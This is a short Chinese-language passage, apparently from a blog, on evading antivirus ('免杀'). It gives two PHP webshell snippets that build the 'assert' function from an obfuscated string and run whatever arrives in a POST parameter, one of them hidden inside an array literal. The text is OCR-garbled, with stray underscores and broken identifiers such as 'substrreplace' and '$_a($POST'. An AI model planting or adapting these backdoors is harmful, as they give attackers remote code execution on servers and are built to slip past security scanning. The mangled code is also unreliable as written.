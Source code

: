 
### 利⽤数组免杀


```php
_<?php
$a = substrreplace("assexx","rt",4);_
$b=[''=>$_a($POST['x'])];
?>_

```


![2020%2003%2018%2022%2008%20{second.png](../post_images/df9e2f594821d5070b80b16a4a21e239.png)


还可以给数组加点料：


```php
_<?php
$a = substrreplace("assexx","rt",4);_
$c = $_REQUEST['e'];
if ($c="test"){_
$b=[$c=>$a($_POST['x'])];
}_

```


![2020%2003%2018%2022%2009%20{second.png](../post_images/c0fa700e626122520e12de1e41bed552.png)
